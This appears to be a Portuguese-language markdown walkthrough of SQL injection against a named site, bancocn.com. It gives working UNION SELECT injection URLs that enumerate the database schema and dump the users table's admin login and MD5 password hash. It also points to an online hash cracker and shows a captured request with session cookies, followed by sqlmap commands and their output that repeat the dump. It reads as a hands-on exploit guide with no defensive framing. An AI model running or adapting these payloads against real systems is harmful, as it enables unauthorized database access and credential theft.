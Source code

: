 # Explorando SQL Injection

## ORDER BY
- possui 3 colunas

## UNION ALL SELECT
### Nome do banco de dados
- ```http://www.bancocn.com/cat.php?id=-1 union select 1, 2, database()```

- ```schema_name from information_schema.schemata```

- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(schema_name)%20from%20information_schema.schemata```

    - RESPOSTA: information_schema,bancocn
    
### Nome das tabelas
- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22bancocn%22```

    - RESPOSTA: categories,pictures,stats,users
    
### Nome das colunas
- ```http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22bancocn%22%20and%20table_name=%22users%22```

    - RESPOSTA: id,login,password

### Dados de login
    http://www.bancocn.com/cat.php?id=-1%20union%20select%201,%202,%20group_concat(id,%22%20:%20%22,%20login,%22%20:%20%22,%20password)%20from%20bancocn.users

    Resposta: 1 : admin : 7b71be0e85318117d2e514ce2a2e222c

    id = 1
    login = admin
    password = 7b71be0e85318117d2e514ce2a2e222c

    usar o https://hashkiller.co.uk/md5-decrypter.aspx para descobrir a senha

########################################################################################################################
GET cat.php?id=3 HTTP/1.1
Host: www.bancocn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Cookie: __cfduid=dd2f7c8788ca26fb6567db34a9bb12d5a1503287015; cf_clearance=803efaa5872012739bbc3947e0c4e2d153ea36c4-1503290688-3600; PHPSESSID=7905qrdhof3gvlchcmp5l0umh6; cf_use_ob=0
Connection: keep-alive
########################################################################################################################

TERMINAL: 

    :: Saber o nome dos bancos de dados

        nano header.txt
        sqlmap -r header.txt --dbs --dbms=mysql

        Resposta:
            available databases [2]:                                                       
            [*] bancocn
            [*] information_schema


    :: Saber o nome das tabelas:
    
        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn --tables

        Resposta:
            Database: bancocn                                                                                      
            [4 tables]
            +------------+
            | categories |
            | pictures   |
            | stats      |
            | users      |
            +------------+
    :: Saber os campos de uma tabela

        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users --columns

        Resposta:
            Database: bancocn                                                                                      
            Table: users
            [3 columns]
            +----------+--------------+
            | Column   | Type         |
            +----------+--------------+
            | id       | mediumint(9) |
            | login    | varchar(50)  |
            | password | varchar(50)  |
            +----------+--------------+
    
    :: Acessar a informações da tabela

        sqlmap -r header.txt --dbs --dbms=mysql -D bancocn -T users -C login,password --dump 

        Resposta:
            Database: bancocn
            Table: users
            [1 entry]
            +-------+----------------------------------+
            | login | password                         |
            +-------+----------------------------------+
            | admin | 7b71be0e85318117d2e514ce2a2e222c |
            +-------+----------------------------------+
